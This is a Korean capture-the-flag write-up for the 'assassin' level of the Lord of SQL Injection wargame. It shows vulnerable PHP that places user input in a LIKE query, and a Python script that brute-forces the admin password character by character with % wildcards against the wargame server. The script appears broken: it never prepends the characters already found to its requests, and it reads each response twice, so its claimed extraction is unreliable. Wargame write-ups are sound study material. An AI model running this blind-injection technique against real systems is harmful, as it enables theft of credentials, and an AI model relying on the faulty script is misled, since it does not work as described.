 # Lord of SQL Injection No.15 - assassin
## 문제 출제 의도 
like문에 와일드카드를 사용하여 원하는 값을 얻어낼 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
~~~
$query = "select id from prob_assassin where pw like '{$_GET[pw]}'"
~~~
+  like문으로 와일드카드를 사용한 SQL Injection을 통하여 pw값을 알아낼 수 있음을 알 수 있다.
## Solution
1. python 코드 사용
```python
import urllib.request
from urllib.parse import quote

key = ""
for i in range(1, 9):
    buf=chr(0)
    for j in range(48, 127): 
        url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw=" 
        data = "{}%".format(chr(j)) 
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36") 
        re.add_header(
            "Cookie", "PHPSESSID=244vrnv66i63b89qfsegu2jls1"
        ) 

        req = urllib.request.urlopen(re) 

        if str(req.read()).find("Hello admin") != -1: 
            key += chr(j).lower()
            print(key)
            buf = str(1)
            break
        elif str(req.read()).find("Hello guest") != -1: 
            buf += chr(j).lower()
            break

    if buf != str(1):
        key += buf
print(key) 
```
이는 와일드카드 %를 이용하여 값을 알아내는 방법으로, 얻은 값  832edd10을 pw로 전달하면 문제가 풀린다.